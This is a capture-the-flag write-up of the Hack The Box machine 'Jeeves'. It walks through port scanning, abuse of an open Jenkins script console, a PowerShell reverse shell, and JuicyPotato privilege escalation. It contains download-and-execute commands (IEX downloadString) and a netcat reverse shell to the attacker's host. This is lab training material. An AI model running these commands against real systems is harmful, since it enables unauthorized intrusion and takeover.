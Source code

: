 # Jeeves

![](<../../../.gitbook/assets/image (9) (1) (1) (1).png>)

## Reconnaissance <a href="#491d" id="491d"></a>

First we want to run a initial nmap scan to see what ports are open and what services are on those ports.

```hcl
nmap -sC -sV -oA nmap/init 10.129.174.184
```

* **-sC**: run default nmap scripts
* **-sV**: detect service version
* **-oA**: output all formats to _nmap/initial_

We get back the following information:

{% code title="init.nmap" %}
```hcl
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 20:19 EDT
Nmap scan report for 10.129.174.184
Host is up (0.034s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-03-24T05:19:57
|_  start_date: 2022-03-24T05:08:21
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m58s, deviation: 0s, median: 4h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.19 secondshcl
```
{% endcode %}

## Enumeration

### Passive Enumeration

#### IIS Directory Enumeration

```bash
gobuster dir -u http://10.129.174.184 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

#### Jetty Directory Enumeration

```
gobuster dir -u http://10.129.174.184:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o iis.txt
```

### Active Enumeration

#### Exploring IIS

Looking at the http site we are presented with a search bar

![](<../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1).png>)

Searching takes you to error.html which turns out to just be an image

![error.html](<../../../.gitbook/assets/image (17) (1) (1) (1).png>)

Source code for site, the action results in error.html

```html
<!DOCTYPE html>
<html>
<head>
<title>Ask Jeeves</title>
<link rel="stylesheet" type="text/css" href="style.css">
</head>

<body>
<form class="form-wrapper cf" action="error.html">
    <div class="byline"><p><a href="#">Web</a>, <a href="#">images</a>, <a href="#">news</a>, and <a href="#">lots of answers</a>.</p></div>
  	<input type="text" placeholder="Search here..." required>
	  <button type="submit">Search</button>
    <div class="byline-bot">Skins</div>
</form>
</body>

</html>
```

#### Exploring Jetty

Quickly checking gobuster for jetty shows that we have a directory to check out

![/askjeeves](<../../../.gitbook/assets/image (16) (1) (1) (1).png>)

Going there we see Jenkins!

![Jenkins](<../../../.gitbook/assets/image (24) (1) (1) (1) (1).png>)

Turns out we have command execution without needing to be logged in which works in our favor

![](<../../../.gitbook/assets/image (7) (1) (1).png>)

## Initial Access

Using Nishang Invoke-PowerShellTcp.ps1 script we can create a reverse shell and get access to the box

{% embed url="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1" %}

First we want to copy the example to the bottom of the script so that it is run when copied to the machine we are attacking

![](<../../../.gitbook/assets/image (10) (1) (1).png>)

![](<../../../.gitbook/assets/image (6) (1) (1) (1).png>)

Next we want to get a web server running and a netcat listener to catch the reverse shell. In this se I am using [updog](https://github.com/sc0tfree/updog) for my simple web server.

![](<../../../.gitbook/assets/image (12) (1) (1) (1).png>)

Using the script console again I run this command to download and execute the invoke powershell tcp reverse shell script

![](<../../../.gitbook/assets/image (3) (1).png>)

And we get a shell back!

![](<../../../.gitbook/assets/image (14) (1) (1).png>)

This allows us to get user.txt!

## Privilege Escalation

### Juicy Potato

Next we want to run PowerUp.ps1 however we want to use the dev branch as it has extra checks

{% embed url="https://github.com/PowerShellMafia/PowerSploit/tree/dev" %}

![](<../../../.gitbook/assets/image (13) (1) (1) (1).png>)

Then we want to run these commands in our reverse shell

```powershell
IEX(New-Object Net.WebCLient).downloadString('http://10.10.14.92/PowerUp.ps1')
Invoke-AllChecks # This runs the powershell function to check everything
```

![](<../../../.gitbook/assets/image (2) (1) (1).png>)

Right away we see SeImpersonatePrivilege which means this box is vulnerable to Juicy Potato!

{% embed url="https://github.com/ohpe/juicy-potato" %}

We first need to download JuicyPotato.exe to the box which I am hosting from my kali box

![](<../../../.gitbook/assets/image (22) (1) (1) (1).png>)

We need to copy kali's nc.exe to the windows box

```powershell
# nc.exe is located /usr/share/windows-resources/binaries/nc.exe on kali
Invoke-WebRequest "http://10.10.14.92/nc.exe" -OutFile "nc.exe"
```

![](<../../../.gitbook/assets/image (8) (1).png>)

Next we want to run JuicyPotato!

This is the input I used:

* **-t: \***
* **-p:** c:\windows\system32\cmd.exe
* **-a:** "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001"
* **-l:** 9001

```powershell
cmd /c jp.exe -l 9001 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\desktop\nc.exe -e cmd.exe 10.10.14.92 9001" -t *
```

![Got a shell](<../../../.gitbook/assets/image (23) (1) (1) (1).png>)

We got nt authority\system!&#x20;

When we try and take a look at the administrators desktop we see hm.txt with an interesting message

![](<../../../.gitbook/assets/image (5) (1).png>)

Then I tried this

![Alternate Data Streams](<../../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

Alternate Data Streams, find more about them here

{% embed url="https://owasp.org/www-community/attacks/Windows_alternate_data_stream" %}

<details>

<summary>We can direct this into more and get the flag</summary>

```
C:\Users\Administrator\Desktop>more < hm.txt:root.txt
more < hm.txt:root.txt
afbc5bd4b615a606 # Only first 16 bytes of hash shown
```

</details>

## Lessons Learned

* Restrict who can access the Jenkins management as this opens up unauthorized access
* In some instances a file using alternate data streams could be an indicator of compromise
* Be careful of which service users have SeImpersonatePrivilege as this could allow an attacker to easily escelate their privileges&#x20;
